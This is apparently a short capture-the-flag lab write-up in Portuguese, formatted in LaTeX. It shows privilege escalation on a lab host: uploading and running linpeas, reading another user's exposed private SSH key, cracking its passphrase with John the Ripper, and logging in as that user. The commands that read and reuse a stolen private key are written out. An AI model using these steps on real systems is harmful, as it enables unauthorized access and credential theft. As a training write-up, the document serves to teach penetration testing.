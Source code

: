 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
scp linpeas.sh jan@10.10.165.187:/dev/shm  --> enviar o exploit para o server alvo
\end{verbatim}

\begin{verbatim}
./linpeas.sh | tee linlog.txt ---> correr o script no pc da vitima 
para mostrar as vunerabilidades 
\end{verbatim}


a vitima possuia uma diretoria de chaves ssh em que todos os utilizadores têm acesso:
 \begin{verbatim}
Private SSh Keys found!:
/home/kay/.ssh/id_rsa
 
jan@basic2:/home/kay/.ssh$ cat id_rsa 
\end{verbatim}


\begin{verbatim}
nano kay_id_rsa  ---> copiar o conteúdo para a nossa directoria
\end{verbatim}


 \begin{verbatim}
 ssh -i kay_id_rsa kay@10.10.165.187 
\end{verbatim}

\subsubsection{SSH Key and John the ripper}

Utilizamos o John the ripper para conseguir utilizar a chave ssh (ao descobrir a palavra pass descoberta) 

\begin{figure}[h]
    \includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-14_06_43_32.png}
    \centering
    \caption{John the ripper and SSH key}
\end{figure}
\end{document}
